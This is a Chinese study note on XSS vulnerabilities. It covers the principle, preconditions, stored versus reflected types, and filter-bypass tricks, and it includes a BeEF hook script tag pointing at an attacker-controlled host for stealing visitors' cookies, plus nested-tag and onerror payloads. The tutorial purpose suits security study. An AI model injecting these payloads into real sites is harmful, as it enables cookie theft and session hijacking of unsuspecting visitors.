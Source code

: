 ### 一、漏洞原理
攻击者利用网站对输入的过滤缺陷，传入payload,使访问改页面的浏览器产生歧义，从而达到攻击的效果
### 二、存在条件

- 网页对用户输入过滤不足
- 输入内容会在页面展示
### 三、漏洞分类

1. 存储型XSS
   1. 判定：_<script>alert(1)</script>,_如果每次刷新都会调用该脚本则为存储型XSS
   2. 攻击：
      1. 启动_beef-xss_或者其他_xss_平台，传入payload：<script src="[http://192.168.11.132:3000/hook.js"></script>](http://192.168.11.132:3000/hook.js"></script>)
      2. 在平台获取传递过来的cookie，并在xss平台进行对应的攻击
   3. 防护绕过
      1. 标签剔除：标签嵌套，比如<script>改为<scri<script>pt>,通常只对内部的标签进行过滤
      2. 正则过滤标签：使用其他标签，比如<img src='' onerror="">
2. 反射型XSS
> 攻击方式跟存储型XSS类似，但是payload无法存储入数据库，从而只能执行一次

### 四、常见payload及绕过绕过
![](https://cdn.nlark.com/yuque/0/2022/jpeg/32589116/1665667713803-1801833f-406e-4538-8251-8c903d2fc35f.jpeg)
主要要点：
> - 探测过滤 sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> 
> - // 注释
> - 查看源页面，根据源页面判断


### 五、总结
XSS漏洞是利用web的过滤不严谨，从而导致浏览器对html的解析产生歧义，最终导致被利用。所有的攻击方式取决于对前端三剑客以及浏览器的理解和使用。


